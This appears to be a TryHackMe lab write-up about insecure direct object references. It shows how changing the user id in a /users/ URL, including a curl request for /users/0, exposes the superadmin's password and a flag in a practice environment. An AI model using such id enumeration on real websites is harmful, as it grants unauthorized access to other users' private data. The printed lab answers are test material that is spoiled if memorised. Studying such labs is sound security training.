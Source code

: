 In this I am going to show you how a lot of systems don't even have proper authentication and their system is just left open for anyone to exploit it.

A lot of time on websites we see that when we register a user and login with our credentials we are given a certain id which either is completely a number or ends with a number. Most of the time developers secures their application but sometime in some places, it could happen that just by changing that number we are able to see some hidden or private data.

To test this go to port **7777**. On that just create an account. Once the account is created visit your **Private Space**.

![](https://imgur.com/RzRzvpx)

As you can see in the image above the URL have **/users/1**. Try to change that value to 2 and we will get access to the admin account

![](https://i.imgur.com/TAkXZ4b.png)

The chance of finding this kind of vulnerability is very low but it could be a very serious bug if you get lucky and found something like this.

1. Find the way to get into superadmin ad

`No answer needed`

2. What is the password for superadmin account?

```
kali@kali:~/CTFs/tryhackme/Authenticate$ curl http://10.10.7.33:7777/users/0
<!DOCTYPE html>
<html>
<head>

<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>No Auth</title>

<link href="/static/css/bootstrap.min.css" rel="stylesheet">
<link href="/static/css/styles.css" rel="stylesheet">

</head>

<body>


<div class="row">
        <div class="col-lg-7 col-sm-offset-2">
                <div class="panel panel-default">
                        <div class="panel-heading">Hello superadmin!</div>
                        <div class="panel-body">
                                <div class="col-md-6">
                                        <form method="post" action="/home" enctype="multipart/form-data">
                                                        <div class="form-group">
                                                        <p><h3>Your password: </h3>abcd1234</p>
                                                        <p><h3>Your secret data: </h3>Here&#39;s your flag: 72102933396288983011</p>
                                        </div>
                                </div>
                                </form>

                        </div>
                </div>
        </div><!-- /.col-->
</div><!-- /.row -->


```